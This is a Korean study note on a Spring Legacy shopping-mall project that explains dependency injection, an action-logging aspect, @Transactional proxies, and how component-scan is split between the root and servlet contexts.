XML 생성자 주입(`<constructor-arg>`) - `AdminLoginSuccessHandler`는 Security 설정 XML에서 빈으로 만들고 `adminMapper`를 생성자로 받음
```xml
<beans:bean id="adminLoginSuccessHandler" class="org.doit.goodpang.security.AdminLoginSuccessHandler">
    <beans:constructor-arg ref="adminMapper" />
</beans:bean>
```

ref 주입 - `<http>`의 `authentication-success-handler-ref`, `security-context-repository-ref`, `authentication-manager-ref`로 위 빈들을 연결

**기존과 비교**
```java
// Before (GoodPang)
List<...> list = new VendorDeliveryDAO().findShippingBySellerNo(sellerNo);
// After
private final VendorOrderMapper vendorOrderMapper;   // 주입받아서 사용
```
- 구현체를 몰라도 됨 - Mapper는 인터페이스뿐, 구현체는 MyBatis가 만듦
- 객체가 **하나(싱글톤)**만 만들어져 재사용됨
- 테스트할 때 가짜 Mapper를 넣을 수 있음 (12번 AOP 검증을 가짜 Mapper로 한 것이 이 덕분)

### AOP (관점 지향 프로그래밍)

**핵심**: 여러 곳에 흩어진 공통 기능을 한 곳에 모아서, 원래 코드를 고치지 않고 끼워 넣음

**① 직접 만든 Aspect: 액션 로그 (`ActionLogAspect`)** - 설정은 root-context.xml의 `<aop:aspectj-autoproxy />` 한 줄

| AOP 용어 | 이 프로젝트에서 |
|---|---|
| Aspect | `ActionLogAspect` (`@Aspect @Component @Order(1)`) |
| Pointcut (어디에) | Service 메서드 13개, 예: `VendorProductService.changeDisplayYn(..)` |
| Advice (언제) | `@AfterReturning` - 예외 없이 끝났을 때만 실행 |
| 하는 일 | 반환값으로 성공 여부 확인 후 `VENDOR_ACTION_LOG` / `ADMIN_ACTION_LOG`에 기록 |

| 판매자 로그 (7종) | 관리자 로그 (6종) |
|---|---|
| 상품 등록 `registerProduct` | 공지 등록 `registerNotice` |
| 상품 노출/숨김 `changeDisplayYn` | 공지 수정 `updateNotice` |
| 판매 상태 변경 `changeSaleStatus` | 공지 삭제 `deleteNotice` |
| 옵션 수정 `updateOption` | 상품 승인/반려 `decideProductApproval` |
| 출고 처리 `shipOrder` | 판매자 승인/정지 `changeSellerStatus` |
| 탈퇴 `withdraw` | 배송완료 `completeDelivery` (관리자 로그 + 판매자 로그) |

→ 기존엔 Controller 13곳에 같은 `try { insertLog(...) } catch` 코드, 지금은 Controller가 **Service 호출만** 하고 로그는 Aspect가 처리

**② Spring이 제공하는 AOP: `@Transactional`** - 내부적으로 **AOP 프록시**로 동작 (메서드 앞에서 트랜잭션 시작 → 끝나면 commit, 예외면 rollback)

| 위치 | 메서드 |
|---|---|
| `VendorOrderService` | `shipOrder` (ORDERS + DELIVERY) |
| `VendorProductService` | `registerProduct` (PRODUCT + OPTION + IMAGE) |
| `VendorAccountService` | `withdraw` (SELLER + PRODUCT) |
| `AdminDeliveryService` | `completeDelivery` (DELIVERY + ORDERS) |

**두 AOP가 같이 걸릴 때의 순서**
```
ActionLogAspect (@Order(1), 바깥)
   └ @Transactional 프록시 (안쪽)
        └ Service 메서드 → commit
   └ commit이 끝난 뒤 → @AfterReturning으로 로그 기록
```
→ **로그 저장이 실패해도 원래 처리(출고, 등록 등)는 되돌아가지 않음**

### DI와 AOP의 연결

AOP는 **DI 덕분에 동작함**
- Controller가 주입받는 `VendorProductService`는 실제로는 Spring이 만든 **프록시 객체**
- 프록시가 트랜잭션·로그를 처리한 뒤 진짜 Service를 호출
- `new VendorProductService()`로 직접 만들면 프록시를 거치지 않아 로그도 트랜잭션도 동작하지 않음
- 같은 클래스 안에서 자기 메서드를 호출할 때 AOP가 안 걸리는 것도 같은 이유

---

## 부록. root-context.xml과 servlet-context.xml에 둘 다 component-scan이 있는 이유

Spring Legacy에는 **컨테이너(ApplicationContext)가 두 개** 있고, 각자 자기 빈을 따로 등록함 → 같은 패키지를 스캔하되 **필터로 나눠서 겹치지 않게** 함

### 컨테이너가 두 개인 이유

| 설정 파일 | 누가 읽는가 | 컨테이너 | 담당 |
|---|---|---|---|
| `root-context.xml` | `ContextLoaderListener` | **Root(부모)** | Service, Mapper, DataSource, 트랜잭션, AOP, Security |
| `servlet-context.xml` | `DispatcherServlet` | **Servlet(자식)** | Controller, ViewResolver(Tiles), multipartResolver 등 웹 관련 |

```
Root 컨텍스트 (부모)        ← Service, Mapper, Aspect
   └ Servlet 컨텍스트 (자식) ← Controller
```

- **자식은 부모의 빈을 볼 수 있음** → Controller가 Service를 주입받을 수 있음
- **부모는 자식의 빈을 볼 수 없음** → Service는 Controller를 모름

### 이 프로젝트의 나눔

```xml
<!-- root-context.xml : Controller만 빼고 전부 -->
<context:component-scan base-package="org.doit.goodpang">
    <context:exclude-filter type="annotation" expression="org.springframework.stereotype.Controller" />
</context:component-scan>

<!-- servlet-context.xml : Controller만 -->
<context:component-scan base-package="org.doit.goodpang" use-default-filters="false">
    <context:include-filter type="annotation" expression="org.springframework.stereotype.Controller" />
</context:component-scan>
```

- `use-default-filters="false"`가 중요 - 없으면 기본 필터(`@Component`, `@Service` 등)가 그대로 살아 있어 include 필터를 줘도 **전부** 스캔됨

### 한쪽에서 전부 스캔하면 생기는 문제

**servlet-context.xml에서 전체를 스캔하면** → Service가 **두 벌** 생김 (부모에 하나, 자식에 하나)
1. Controller는 가까운 **자식 컨텍스트의 Service**를 주입받음
2. `<tx:annotation-driven>`, `<aop:aspectj-autoproxy>`는 **root-context.xml에만** 있음
3. 자식 쪽 Service는 프록시가 아닌 **진짜 객체** → **`@Transactional`과 ActionLogAspect가 조용히 동작하지 않음**

(9번의 "`<tx:annotation-driven>`은 root-context.xml에 있어야 동작"과 같은 이유 - 이 설정들은 **자기 컨테이너 안의 빈에만** 적용됨)

**root-context.xml에서 Controller까지 스캔하면** → `DispatcherServlet`은 자식 컨텍스트에서 Controller를 찾기 때문에 URL 매핑이 안 되거나 중복 빈이 생길 수 있음

### 요약

| | root-context.xml | servlet-context.xml |
|---|---|---|
| 스캔 대상 | Controller **제외** 전부 | Controller **만** |
| 이유 | 트랜잭션·AOP가 적용되는 곳에 Service가 있어야 함 | DispatcherServlet이 자기 컨텍스트에서 Controller를 찾음 |
| 겹치면 | 빈이 두 벌 생기고, 트랜잭션·AOP가 안 걸린 쪽이 주입될 수 있음 | |
